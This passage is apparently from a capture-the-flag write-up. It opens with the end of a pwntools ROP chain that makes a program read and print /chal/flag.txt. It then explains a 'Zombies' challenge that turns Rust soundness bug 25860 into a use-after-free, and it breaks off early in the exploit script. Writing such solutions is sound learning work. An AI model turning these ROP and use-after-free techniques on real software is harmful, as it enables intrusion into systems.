 ```python
		p64(libc_leak+L_syscall)+\
		p64(libc_leak+L_pop_rdi)+p64(0x1)+\
		p64(libc_leak+L_pop_rax)+p64(0x1)+\
		p64(libc_leak+L_syscall)+\
		p64(libc_leak+L_pop_rax)+p64(0x3c)+\
		p64(libc_leak+L_syscall)
	io.sendline(L_ROP)
	pause()
	io.sendline('/chal/flag.txt')

	io.interactive()
```

## Zombies

1. We are give a rust compiled binary and source code. I won't go into much detail but it was pretty cool challenge.

2. I quickly saw this lines on the source codes.

```rust

// Issue 25860

fn cell<'a, 'b, T: ?Sized>(_: &'a &'b (), v: &'b mut T) -> &'a mut T { v }

fn virus<'a, T: ?Sized>(input: &'a mut T) -> &'static mut T {
	let f: fn(_, &'a mut T) -> &'static mut T = cell;
	f(&&(), input)
}

fn zombie(size: usize) -> &'static mut [u8] {
	let mut object = vec![b'A'; size];
	let r = virus(object.as_mut());
	r
}
```
- and i searched for the issue on github. (Issue 25860)
[github issue link](https://github.com/rust-lang/rust/issues/25860)
basically what it does is make the static variable lifetime infinite and when we return from the function the variable gets freed, but whatever we can still use that variable because of the wierd thing(making lifetime infinite) which makes Use After free. So we can use eat zombie function to change the input to `get flag`.

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random

####Zombies
def infect(number):
	io.sendlineafter('do?\n','infect')
	io.sendlineafter('infect?\n',str(number))

def dick(s,l):
	io.sendlineafter(s,l)


####Brains?
p_o = 'do?\n'
O_o = ' '
oOOo = 'done'

```